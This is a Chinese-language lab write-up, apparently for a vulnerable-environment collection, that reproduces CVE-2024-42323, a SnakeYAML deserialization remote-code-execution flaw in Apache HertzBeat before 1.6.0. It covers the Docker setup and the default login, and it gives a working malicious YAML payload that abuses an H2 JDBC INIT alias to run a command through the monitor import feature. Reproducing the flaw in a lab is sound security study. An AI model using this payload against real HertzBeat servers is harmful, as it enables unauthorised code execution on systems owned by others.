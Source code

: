 # Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞（CVE-2024-42323）

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## 环境搭建

执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`

## 漏洞复现

首先，准备一个恶意 YAML 文件，文件名必须以 `.yaml` 结尾，内容如下：

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

然后登录 HertzBeat 后台，导航到任意监控页面并找到导入按钮，在这里将上面的恶意 YAML 文件导入：

![定位导入按钮](1.png)

HertzBeat 对 YAML 文件进行反序列化时，触发远程代码执行：

![导入恶意 YAML 文件](2.png)

如果攻击成功，payload 将在目标系统上执行。在本例中，我们可以通过检查容器中是否存在新创建的文件来验证执行结果：

![验证代码执行](3.png)

